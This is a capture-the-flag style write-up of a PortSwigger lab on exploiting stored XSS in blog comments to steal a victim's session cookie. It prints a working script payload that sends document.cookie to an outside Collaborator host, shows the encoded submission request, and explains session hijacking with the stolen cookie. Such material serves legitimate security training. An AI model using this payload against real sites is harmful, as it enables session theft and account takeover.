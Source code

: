 # Exploiting cross-site scripting to steal cookies

## Description

The website in [this lab](https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-stealing-cookies) contains a stored XSS vulnerability in the blog comments function. A simulated victim user views all comments after they are posted.

## Reproduction and proof of concept

1. Using Burp Suite Professional, go to the Collaborator tab.
2. Click **Copy to clipboard** to copy a unique Burp Collaborator payload to the clipboard.
3. Submit the payload in a blog comment, inserting your Burp Collaborator subdomain where indicated. This script will make anyone who views the comment issue a POST request containing their cookie to your subdomain on the public Collaborator server.

```text
<script>
    fetch('https://kocnw0mrbkcqli3hz8v75eaoofu6iw6l.oastify.com', {
    method: 'POST',
    mode: 'no-cors',
    body:document.cookie
    });
</script>
```

The request contains

```text
csrf=v2vsUOVw1AzS5JTcIE0gfOxlGpqzwju5&postId=10&comment=%3Cscript%3E%0D%0A++++fetch%28%27https%3A%2F%2Fkocnw0mrbkcqli3hz8v75eaoofu6iw6l.oastify.com%27%2C+%7B%0D%0A++++method%3A+%27POST%27%2C%0D%0A++++mode%3A+%27no-cors%27%2C%0D%0A++++body%3Adocument.cookie%0D%0A++++%7D%29%3B%0D%0A%3C%2Fscript%3E&name=Evil&email=evil%40doer.com&website=
```

4. Go back to the Collaborator tab, and click "Poll now". You should see an HTTP interaction. If you don't see any interactions listed, wait a few seconds and try again.
5. Take a note of the value of the victim's cookie in the POST body.

![XSS](../../_static/images/xss2.png)

6. Reload the main blog page, using Burp Proxy or Burp Repeater to replace your own session cookie with the one you captured in Burp Collaborator. Send the request to solve the lab. To prove that you have successfully hijacked the admin user's session, you can use the same cookie in a request to `/my-account` to load the admin user's account page.

## Exploitability

To prevent the Academy platform being used to attack third parties, the firewall blocks interactions between the labs and arbitrary external systems. To solve the lab, use Burp Collaborator's default public server, meaning Burp Pro.

And there is an alternative solution to this lab that does not require Burp Collaborator: Make the victim post their session cookie within a blog comment by exploiting the XSS to perform CSRF. This exposes the cookie publicly, and discloses evidence that the attack was performed. 
